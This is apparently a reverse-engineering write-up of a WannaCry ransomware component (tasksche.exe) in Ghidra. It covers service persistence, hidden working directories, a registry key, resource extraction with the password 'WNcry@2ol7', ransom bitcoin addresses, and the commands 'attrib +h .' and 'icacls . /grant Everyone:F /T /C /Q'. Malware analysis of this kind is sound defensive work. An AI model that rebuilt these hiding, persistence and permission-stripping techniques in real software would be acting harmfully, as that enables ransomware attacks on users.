Now, we will import the binary `R1831.bin` as we did with the WannaCry sample:

<div align="center"></div>

<div align="center"></div>

<div align="center"></div>

###### Function entry
Our first step will be going again to the `entry` function, the first executed function in the code:

<div align="center"></div>

Then we will reedit the function signature of the last function, which is the `wWinMain` function, and put the correct data types:

<div align="center"></div>

<div align="center"></div>

###### Function wWinMain
Now after entering to the `wWinMain` function the first interesting function is [`GetModuleFileNameA`](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulefilenamea) which retrieves the complete route to a filename specified in the second parameter.

<div align="center"></div>

At first sight the third parameter is 520, in decimal, which refers to the size of the second parameter, which is a single char. It seems to be a decompilation mistake by Ghidra, so we should change the data type to `char[520]` to represent the string and rename the variable to filename.

<div align="center"></div>

<div align="center"></div>

Afterwards, a function is called with a global variable, as can be seen in the assembly code, from a memory address.

<div align="center"></div>

- Function random_string_generator  (FUN_00401225)
	In the function within `wWinMain`, we see as the first interesting function, ignoring the `memset` calls, [`GetComputerNameW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-getcomputernamew) from `kernel32.dll`, which will retrieve the name of the machine.
	
	<div align="center"></div>
	
	We rename the variables to make the parameters clearer. 
	
	<div align="center"></div>
	
	Subsequently, in the rest of the code, the length of the string containing the computer name is obtained, and with a unique seed (`_Seed`) for the `rand` function to generate random numbers, which is calculated by multiplying the seed with each character of the computer name in `ushort` (integer). Then, in the second loop, the number of random characters is calculated randomly between `8` and `15`, generating a random character from the alphabet in each iteration, in the random string that will be generated. In the third loop, the same is done but generating a random number between `11` and `18` digits that will be appended to the generated string. The generated string is the parameter passed to the function, so the function is meant to generate random strings based on a unique seed that is calculated from the computer name.
	
	
	<div align="center"></div>
	
	We will rename the function along with the parameter, since it is marked as an integer and not as a pointer, which is actually the case.
	
	<div align="center"></div>

###### Function wWinMain
Continuing from before, we obtained the path of the module where the binary is located and a randomly generated string (renaming the global variable).


<div align="center"></div>

We have an `if` statement that, based on the received arguments, executes the inner code only if exactly one argument was passed.

<div align="center"></div>

The variable `Str2`, if we inspect it, points to a data value.

<div align="center"></div>

In this data we can perform a `Clear Code Bytes` to view its content.

<div align="center"></div>

<div align="center"></div>

The problem is that the data is no longer the same as before, so we will define it as a `TerminatedCString` type.

<div align="center"></div>

<div align="center"></div>

In addition, the parameter `argv` must be corrected, because it is an `int` pointer but it is actually a `char ***`, since we want to pass the reference of a `char **` (`argv`), so it should be declared like this.

<div align="center"></div>

Within the second `if`, there is a function whose functionality must be reviewed in order to understand the entry condition.

- Function  create_random_directory (FUN_00401b5f)
	First, we see several `memset` calls that initialize memory positions to zero.
	
	<div align="center"></div>
	
	A bit further down, we convert the random string into a `wide char`, so it is `Unicode` and there wont be path issues across different languages, and also because the function used works with wide chars. Additionally, the Windows directory path is obtained, which is `C:/` or `C:/Windows`, using [`GetWindowsDirectoryW`](https://learn.microsoft.com/en-us/windows/win32/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectoryw).
	
	<div align="center"></div>
	
	Next, we have a `swprintf` that appears to concatenate two values, but the parameter `0x40f40c` has a strange format:
	
	<div align="center"></div>
	
	<div align="center"></div>
	If we perform a clear code bytes or clear with options, we can better see the content. It turns out to be a string; judging by its content, it is "`ProgramData`", which we will assign the type `TerminatedUnicode`, since we are working with `Unicode`.
	
	<div align="center"></div>
	
	<div align="center"></div>
	
	<div align="center"></div>
	
	Moreover, if we pay attention, the function expects four parameters, one of them being the size, which is not being used; therefore, we will remove it.
	
	<div align="center"></div>
	
	<div align="center"></div>
	
	The result is that we obtain the path `C:/ProgramData` or `C:/Windows/ProgramData`.
	
	<div align="center"></div>
	
	Afterwards, it attempts to retrieve the attributes of the previously obtained "`ProgramData`" path.
	
	<div align="center"></div>
	
	It continues by checking if the path does not exist or if the function fails, which we will comment on.
	
	<div align="center"></div>
	
	- Function create_workingdir  (FUN_00401af6)
		In this function, we see that there are two return values: `0` and `1`, so the function's return type should be `int`.
		
		<div align="center"></div>
		
		<div align="center"></div>
		
		<div align="center"></div>
		Reviewing the function, we see a series of steps that return `1` if successful, or `0` otherwise. First, it creates the previously saved `ProgramData` directory by calling [`CreateDirectoryW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createdirectoryw), then changes the current working directory of the process with [`SetCurrentDirectoryW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-setcurrentdirectory). If there is no error, it proceeds to the next `if`.
		
		In the next `if`, it creates a folder with the previously generated random string name, using the same method. If this is successful, it retrieves the folder attributes with [`GetFileAttributesW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getfileattributesw), which will be used to modify the folder attributes with [`SetFileAttributesW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-setfileattributesw). Using `Dvar2 | 6`, the original permissions are maintained but with the addition of `0x2 = FILE_ATTRIBUTE_HIDDEN` (hides it from Explorer) and `0x4 = FILE_ATTRIBUTE_SYSTEM` (marks it as a system folder).
		
		Finally, the path of the new folder is saved into the pointer `new_dir`, resulting in either `C:/Windows/ProgramData/{RandomString}` or `C:/ProgramData/{RandomString}`.
		
		<div align="center"></div>
		
		Therefore, with this function, it creates the folder and change the working directory to it, where it will operate.
		
		<div align="center"></div>
	Returning to the previous function, if it also fails, the malware will try to create a folder in `C:/Windows/Intel` or `C:/Intel` with the random string folder. If this also fails, it will use [`GetTempPathW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-gettemppathw) to obtain a path similar to `C:\Users\user\AppData\Local\Temp\`, from which it will remove the trailing backslash and create the random string directory inside the Temp folder.
	
	<div align="center"></div>
	
	Based on that, we will rename the function to `create_random_directory`.
	
	<div align="center"></div>

###### Function wWinMain
Once the `create_random_directory()` function is understood, we can continue analysing the main function.

First, we compare the second argument obtained from `argv` with the string `/i`. If they are equal, the `strcmp` comparison will return `0`; therefore, to enter the second `if`, the parameter passed when calling resource `1831` must be equal to `/i`, and the previously mentioned function must complete successfully, returning whether a hidden working directory was created to operate on.

Once both conditions are met, the program attempts to copy the current executable using [`CopyFileA`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-copyfilea) with the name `tasksche.exe` and tries to get its attributes via [`GetFileAttributesW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getfileattributesw). If this call succeeds, another function is invoked, which we will analyse next to understand what must happen to terminate.

<div align="center"></div>

- Function create_or_start_tasksche_service  (FUN_00401f5d)
	After making some variables more clear and fixing the return type, we have the next code:
	
	<div align="center"></div>
	In the code we can see that in the function [`GetFullPathNameA`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getfullpathnamea) we're getting the complete path of the copied file `tasksche.exe`, which later is used as a parameter in a function that we will analyse.
	- Function create_tasksche_service (FUN_00401ce8)
		This function, what it does first, is open the Service Control Manager (SCM) of Windows with [`OpenSCManagerA`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-openscmanagera) with the `SC_MANAGER_ALL_ACCESS(0xF003F)` rights, all permissions. Later it tries to open a service with the previous random string generated, giving it all the permissions with `SERVICE_ALL_ACCESS(0xF01FF)` rights. If the service exists, it is started and the handles are closed. If the service does not exist, it is created by building a command string in `cmd_command` using `sprintf`, which will be `cmd.exe /c {Ruta tasksche.exe}`, where `/c` causes the command prompt to close once the command finishes. The service is created with [`CreateServiceA`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicea), using the service name displaying the random string, and configured to run with the specified command. If the service is successfully created, it is started with [`StartServiceA`](https://learn.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-startservicea), and the handles are closed afterward.
		<div align="center"></div>
		The function therefore creates the `tasksche.exe` service, so we will rename it to `create_tasksche_service`:
		<div align="center"></div>
	Therefore, if the `tasksche` service is created and another function (which we will analyze later) succeeds, the function will complete successfully.
	
	<div align="center"></div>
	- Function get_mutex_tasksche (FUN_00401eff)
		This function attempts to acquire a mutex with a specific name, `Global\MsWinZonesCacheCounterMutexA0`. If it fails, it will retry `tries_number` times, waiting one second between each attempt. If the mutex already exists, it returns `1`; if all attempts fail, it returns `0`. This mechanism is used to prevent multiple instances of the malware from running simultaneously, avoiding double infection and remaining stealthier by continuously checking if another instance is already executing.
		<div align="center"></div>
	Therefore, if the service is created and the mutex is acquired, the function returns `1`.
	
	<div align="center"></div>
	If there is no mutex, meaning another active instance exists, the code will enter a function that we will analyse next, passing the path of `tasksche` as a parameter.
	
	<div align="center"></div>
	- Function run_process_params (FUN_00401064)
		The function receives the process path, a timeout, and a process state. It attempts to create the process using the information provided with [`CreateProcessA`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa).
		<div align="center"></div>
		From the given information, there are two start-up process information (`startup_info`) attributes: `wShowWindow` set to 0, which makes the window hidden, and `dwFlags` set to 1, which enables this behaviour.
		<div align="center"></div>
		Subsequently, if the process creation fails, the function returns `0`. Otherwise, in the `else` branch, it first checks if there is a timeout specified. If there is, it waits for the process to finish using [`WaitForSingleObject`](https://learn.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject) for the given timeout duration. If the process does not finish within that time, it is terminated with [`TerminateProcess`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-terminateprocess). If a non-null process status pointer is specified, the exit code of the process is obtained with [`GetExitCodeProcess`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getexitcodeprocess) and stored. Finally, the handles are closed and the function returns `1`.
		<div align="center"></div>
		Based on the functionality, the function will be renamed to `run_process_params`:
		<div align="center"></div>
	Therefore, if there was no previous instance running, we manually create the process and verify that it is running.
	
	<div align="center"></div>
	Based on the functionality, the function checks if a tasksche service is running, and if it is not, it starts it. It will be renamed to `create_or_start_tasksche_service`.
	
	<div align="center"></div>
###### Function wWinMain
Recapping the implication of this function; if the resource is copied to `tasksche.exe` and the attributes are obtained (indicating it exists), and we try to manually create or start the service and it works correctly, the function ends returning `0`. Otherwise, the program execution continues.

<div align="center"></div>
Subsequently, if `string_param_i` is used as a variable to point as a pointer to the last position of the backslash, it is replaced with a null terminator, so as to reference only the path and not the included file.

<div align="center"></div>

And with that path, we set it as the current working directory.

<div align="center"></div>

After this, there are three other functions to analyse:

<div align="center"></div>

In the second function, if we look at the assembly, we can see that it takes an additional parameter, since the string `"WNcry@2ol7"` is pushed onto the stack:

<div align="center"></div>

Therefore, we modify the function signature to accept an additional parameter.

<div align="center"></div>
###### Function  set_get_registry_currentdirectory (FUN_004010fd)
In the function we first have a pointer at the end of the `software_string` `Software\`, with `software_string_buffer`, and some `memset` that zeroes a range of memory.

<div align="center"></div>

Later with the `software_string_buffer`, we add at the end `WanaCrypt0r`, giving the result of `Software\Wanacrypt0r`.

<div align="center"></div>

After that, in a `do-while`, it tries to create first with [`RegCreateKeyW`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regcreatekeyw) under the registry key `HKEY_LOCAL_MACHINE (0x80000002)` the key `Software\Wanacrypt0r`, and if it fails, because of not enough permissions, it tries with the registry key `HKEY_CURRENT_USER (0x80000001)`; source: [`Registry Cmdlets: Working with the Registry - Scripting Blog`](https://devblogs.microsoft.com/scripting/registry-cmdlets-working-with-the-registry/). After being able to create the registry key, the next is based on the `registry_action` variable passed as a parameter:
- registry_action = 0 -> If it's zero, then it retrieves the value from `HKEY_{LOCAL_MACHINE | CURRENT_USER}/Software/Wanacrypt0r/wd` with [`RegQueryValueExA`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regqueryvalueexa) and then uses the value, if the query was successful, to change the current directory with [`SetCurrentDirectoryA`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-setcurrentdirectory). 
- registry_action != 0 -> If the value of `registry_action` was not zero, then it will try to get the current directory with [`GetCurrentDirectoryA`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-getcurrentdirectory) and save in the data of the value `wd` on `HKEY_{LOCAL_MACHINE | CURRENT_USER}/Software/Wanacrypt0r` with [`RegSetValueExA`](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa).

<div align="center"></div>

With this information, we will rename the function to `set_get_registry_currentdirectory`:

<div align="center"></div>

###### Function extract_encrypted_resource (FUN_00401dab)
At first sight what we can see is that it's trying to get an embedded resource, as 1831 originally did. It starts by trying to find the resource called `2058` of type `XIA` with [`FindResourceA`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-findresourcea), and if the resource is found, we get the handle of the resource with [`LoadResource`](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadresource), lock it with [`LockResource`](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-lockresource) (which actually just gets the pointer to the memory containing the resource), and get the size in bytes of the resource with [`SizeofResource`](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-sizeofresource). After that it calls another function that will need to be analysed, which receives the pointer to the resource, the size, and the weird string.

<div align="center"></div>

- FUN_004075ad
This function calls another function in which, at first, there is nothing relevant, besides initially passing the resource pointer, its size, and the weird string.

<div align="center"></div>
	- FUN_004074a4
	If we enter the next function, `FUN_004074a4()` there are too many new functions without anything interesting at first sight, mainly because Ghidra seems to not decompile it correctly. Moreover, if you try to analyse each function, you will see more new functions to analyse, so after looking at the different functions, there is one that is quite interesting.
	<div align="center"></div>
	The interesting function is the function `FUN_00406b8e()` which is receiving the function parameters, which are not correctly shown because of Ghidra, but if you look at assembly, you see it references the stack variables passed.
	<div align="center"></div>
	<div align="center"></div>
		- FUN_00406b8e
		We can see in the function that we call another interesting function with the same function parameters, the function `FUN_00405bae()`.
		 <div align="center"></div>
			- FUN_00405bae
			This function creates a file with [`CreateFileA`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) and sets the pointer in the file with [`SetFilePointer`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-setfilepointer). So it's apparently creating a file with the embedded resource and returning the pointer of the file.
			<div align="center"></div>
			So after creating the file, the next and more important function is `FUN_00405fe2()`.
			<div align="center"></div>
			- FUN_00405fe2
			If we look at the assembly code, we can clearly see a string that has the signature `unzip` on it, so it seems the entire function with the other things is just extracting the resource, which seems to be zipped, and probably the passed string parameter was the decryption key.
			<div align="center"></div>

So after this analysis, we will name the function `extract_encrypted_resource`:

<div align="center"></div>

##### Resource 2058 - Extracting binaries
Before doing anything, we will extract the encrypted resource embedded in the binary `1831.bin` as a `XIA` resource with Resource Hacker as we did before and decompress the resource with WinRAR; that should do the task.

After opening `1831.bin` in Resource Hacker we can see the resource 2058 that we will decompress.

<div align="center"></div>

The resource we will save it as `.res`, and change it to the `.XIA` extension.

<div align="center"></div>

<div align="center"></div>

Then decompress it with WinRAR, which, after opening it, we can see multiple files:

<div align="center"></div>
To decompress it, it will ask for a password, which the weird string "`WNcry@2ol7`" we have seen before is the decryption key.

So, we have two new executables, six `.wnry` files, and a folder `msg` with also `.wnry` files, which seem to be based on the user language. 

<div align="center"></div>

<div align="center"></div>
So we will check with the Hex viewer and editor (program HxD) the different files; besides the `msg` files, where we will only check the English one:

- b.wnry
	At `b.wnry`, when inspecting the binary, there is not any plain text, but if we check the first two bytes `42 4D` in the [`signature list`](https://www.garykessler.net/library/file_sigs.html), it indicates it is a `.bmp` file (bitmap, which is an image), so we will copy this file and put the `.bmp` extension on it.
	
	<div align="center"></div>
	So we copy and change the extension and open the image. Which seems to be an image to be displayed when the user gets infected.
	
	<div align="center"></div>
	
	<div align="center"></div>
- c.wnry
	At `c.wnry`, there is plain text that has five Tor URLs to access the Dark Web (because of the `.onion` URLs). Also, there is a download URL for the Tor browser.
	
	<div align="center"></div>
- r.wnry
	At `r.wnry`, there is also plain text, which has a long text that seems to explain to the infected user that his files are encrypted and that he has to pay a certain amount of fees for the decryption to a specific bitcoin address (to be replaced in the placeholder `%s`).
	
	<div align="center"></div>
- s.wnry
	At `s.wnry`, there are some Tor files and components mentioned, which if we take the first 4 bytes of the file `50 4B 03 04` and look for the signature in a [`signature list`](https://www.garykessler.net/library/file_sigs.html), it indicates is a zip file. 
	
	<div align="center"></div>
	If we try to open the file in WinRAR, it has two folders; an empty one named `Data` and another one named `Tor`, which has the files needed to use the Tor browser without installing it (portable program).
	
	<div align="center"></div>
	
	<div align="center"></div>
- t.wnry
	At `t.wnry`, we don't have any generic signature, but the file starts with the text `WANACRY!`, which seems to be a custom signature and a specific file that will have special treatment in the program.
	
	<div align="center"></div>
- u.wnry
	At `u.wnry`, we can see looking at the [`signature list`](https://www.garykessler.net/library/file_sigs.html) that the first two bytes `4D 5A` reference a Windows/DOS executable file. Also, it's easy to see by the plain text, "`!This program cannot be run in DOS mode`".
	
	<div align="center"></div>
- m_english.wnry (msg folder)
	At `m_english.wnry`, we can see looking at the [`signature list`](https://www.garykessler.net/library/file_sigs.html) that the first 5 bytes `7B 5C 72 74 66` reference a rich text format word processing file (`.rtf`) that has multiple formats.
	
	<div align="center"></div>
	We will copy the file and change the extension to `.rtf` to make it easier to read. Inside the file we can see how the group responsible for the infection is claiming that the only way to recover the files is to pay them a certain amount of bitcoins.
	
	<div align="center"></div>
	
	<div align="center"></div>

##### Resource 1831 (tasksche.exe)
###### Function select_and_write_bitcoin_torinfo (FUN_00401e9e)
At first sight we can see some bitcoin legacy addresses stored on an array, based on the 34 characters, which is common for bitcoin addresses, and that it starts with one based on the glossary of bitcoin design: https://bitcoin.design/guide/glossary/address/#legacy-address---p2pkh

<div align="center"></div>

Also, `local_31c` and `local_26a` are next to each other, and it usually means a badly decompiled variable. So we will change the type of the first one and make the array with the sum of both sizes to merge both local variables.

<div align="center"></div>
 So it looks like this now:
 
 <div align="center"></div>
Before proceeding with the analysis, of this function we will analyse the function `FUN_00401000()` .
- Function write_or_read_cwnry (FUN_00401000)
	In this function based on the `op_type`, if zero it will be `wb`, while different from zero it will be `rb` at the variable `_Mode`. Which also later, after opening the file we decrypted and extracted from the resource `2058.XIA`, the file `c.wnry`, we will write in the file with the buffer content the first 780 bytes (the actual size) if `op_type = 0`, and if `op_type != 0`, then it will read from the file and write it at the buffer. 
	<div align="center"></div>
	Taking into account the functionality, we will rename the function to `write_or_read_cwnry`.
	<div align="center"></div>

So the function loads Bitcoin addresses, and with the buffer `tor_links` retrieves the Tor information, if the first read is successful, because of the one passed as a parameter.

<div align="center"></div>

Then we pick one of the three `Bitcoin` addresses randomly and copy it to the buffer with an offset of `0xb2`, which, comparing it to `c.wnry`, which also occupies 780 bytes, all the content, we will put it on the highlighted section as the start of the pointer to put the bitcoin address before the Tor onion URLs, and write it back to `c.wnry` to update it.

<div align="center"></div>

Then the list of bitcoin addresses, which we can check at [`Blockchain Explorer`](https://www.blockchain.com/explorer/search) to see the transactions, are:
- `13AM4VW2dhxYgXeQepoHkHSQuy6NgaEb94`
- `12t9YDPgwueZ9NyMgw519p7AA8isjr6SMw`
- `115p7UMMngoj1pMvkpHijcRdfJNXj6LrLn`

So we will rename the function to `select_and_write_bitcoin_torinfo`:

<div align="center"></div>

###### Function wWinMain
So recapping the three functions we have been analysing:
- set_get_registry_currentdirectory(): Saved in the register the current working directory at the register key `KEY_{LOCAL_MACHINE | CURRENT_USER}/Software/Wanacrypt0r` 
- extract_encrypted_resource(): Extracted the resource `2058.XIA` and decrypted it with the key `WNcry@2ol7`.
- select_and_write_bitcoin_torinfo(): Added to `c.wnry` a randomly chosen Bitcoin address before the Tor links.

<div align="center"></div>

After that we execute the function `run_process_params()` twice with the next parameter to execute:
- `attrib +h .`
	Over the current directory (because of the point), it will execute the command "`attrib +h .`", which will hide the directory and its contents (because of `+h`), based on [`Microsoft Documentation`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/attrib).
- `icacls . /grant Everyone:F /T /C /Q`
	Over the current directory (because of the point), it will execute the command "`icacls . /grant Everyone:F /T /C /Q`" to remove possible restrictions of some files by granting all the users complete access (`grant Everyone:F`) recursively on all the file contents of the directory (`/T`), continuing his execution despite errors (`/C`) and suppressing successful messages (`/Q`) based on [`Microsoft Documentation`](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls).

<div align="center"></div>

The next function is new, so we will analyse it:

<div align="center"></div>

###### Function init_function_ptr (FUN_0040170a)
This function at first sight loads a variety of `kernel32.dll` function pointers into a global variable. But we will need to check what the function `FUN_00401a45()` does to confirm its whole behaviour.

<div align="center"></div>

- init_crypto_function_ptr (FUN_00401a45)
	This function loads data from `Windows CryptoAPI` by dynamically loading the next function pointers from the `advapi32.dll` library:

| Variable               | Windows API Function   | Purpose                                                                  |
| ---------------------- | ---------------------- | ------------------------------------------------------------------------ |
| `cryptAcquireContextA` | `CryptAcquireContextA` | Initializes a cryptographic service provider (CSP)                       |
| `cryptImportKey`       | `CryptImportKey`       | Imports cryptographic keys (usually from encrypted blobs)                |
| `cryptDestroyKey`      | `CryptDestroyKey`      | Frees memory and destroys a key handle                                   |
| `cryptEncrypt`         | `CryptEncrypt`         | Encrypts data using a specified key                                      |
| `cryptDecrypt`         | `cryptDecrypt`         | Decrypts data                                                            |
| `_cryptGenKey`         | `CryptGenKey`          | Generates a cryptographic key (symmetric/asymmetric, depending on flags) |

.
	<div align="center"></div>The malware is probably being prepared to start encrypting and decrypting, based on the function pointers that it's retrieving. If the `cryptAcquireContexA` is already loaded, then it will return a `1`, and if it's not loaded, it will try to load all the function pointers, and if it succeeds, it will return a `1` also, but if it fails, it will return a `0`. 
	Based on this, we will rename the function to `init_crypto_function_ptr`:
	<div align="center"></div>

So after clearing up what the function does, if the `init_crypto_function_ptr` is successful, then it will enter the first `if` which, which checks with another `if`, if `createFileW` is actually initialised, and if it is, then it returns a `1`. If not, then it will attempt to load the next functions, that if they're all correctly loaded then it will return a `1` and if any of the function fails it will return a `0`.

<div align="center"></div>
The functions loaded from the library `kernel32.dll` are the following:

|Variable|Windows API Function|Purpose|
|---|---|---|
|`createFileW`|`CreateFileW`|Opens or creates a file, directory, physical disk, etc. (Unicode)|
|`writeFile`|`WriteFile`|Writes data to a file or I/O device|
|`readFile`|`ReadFile`|Reads data from a file or I/O device|
|`moveFileW`|`MoveFileW`|Moves or renames a file or directory (Unicode)|
|`moveFileExW`|`MoveFileExW`|Moves a file with more options (e.g., delay until reboot)|
|`deleteFileW`|`DeleteFileW`|Deletes a file (Unicode)|
|`_closeHandle`|`CloseHandle`|Closes an open object handle (e.g., file, process, thread)|

Based on the functionality of the described function, we will rename it to `init_function_ptr`:

<div align="center"></div>

###### Function wWinMain
So if the previous functions are loaded, then we enter the if and execute two functions, depending on the second to enter the next `if`.

<div align="center"></div>
If we look at both functions, the first function `FUN_004012fd()` looks somewhat strange, as it calls different functions and has some variable calculations.

<div align="center"></div>
But the interesting part comes when the function `FUN_00401437()` has the convenience call **`__thiscall`** which is exclusive from `C++`, as we can corroborate from the [`Microsoft Documentation`](https://learn.microsoft.com/en-us/cpp/cpp/thiscall).

<div align="center"></div>

We can conclude from what we have seen that the program was written in `C++` and that the function `FUN_004012fd()` is not correctly decompiled, but it resembles a constructor by its behaviour and structure, mainly because if we start to explore the functions, we reach a function that has an `operator_delete` that is used to delete objects from the memory, as we can see in the [`Microsoft Documentation`](https://learn.microsoft.com/en-us/cpp/cpp/delete-operator-cpp). There is the [Pharos Framework](https://github.com/cmu-sei/pharos/tree/master?tab=readme-ov-file) with the tool `OOAnalyzer`, which now has moved the Ghidra functionality to the [`Kaiju Ghidra Plugin`](https://github.com/CERTCC/kaiju) that helps reverse engineering and improves the decompilation of Ghidra, which is too resource-exhausting, and is not that relevant to our static analysis, so we will leave it as it is.

Then we will analyse the function `FUN_00401437()`.

- function import_rsa_key (FUN_00401437)
	At first sight there is a significant amount of code, which is to handle the object (this).
	
	<div align="center"></div>
	First we have to check the function `FUN_00401861()`.
		- import_key (FUN_00401861)
		We also have to check the first function `FUN_00420182c()`.
		<div align="center"></div>
			- acquire_cryptocontext (FUN_00420182c)
			Here we acquire the crypto context, which will make us able to make cryptographic operations.
			<div align="center"></div>
		If we successfully retrieve the crypto context, we import the RSA2 key and if it's done correctly, then the function returns `1`.
		<div align="center"></div>
		If the import failed, then it tries with the function `FUN_004018f9()`.
			- import_key_file (FUN_004018f9)
			This function attempts to create a file with the contents of `param_3` and later imports the key into `param_1` from `param_2`.
			<div align="center"></div>
		So if the import from the memory fails, it tries it from a file. And the last function `FUN_004018b9()` releases the resources.
		Based on the inner functions, the function will be renamed to `import_key`:
		<div align="center"></div>
	Based on the functions, it will be renamed to `import_rsa_key`:
	
	<div align="center"></div>

So if the `import_rsa_key()` function is done correctly, then it enters the `if` and checks the functionality of `FUN_004014a6()`, which has a reference to the `t.wnry` file.

<div align="center"></div>
- decrypt\_twnry (FUN_004014a6)
	<div align="center"></div>
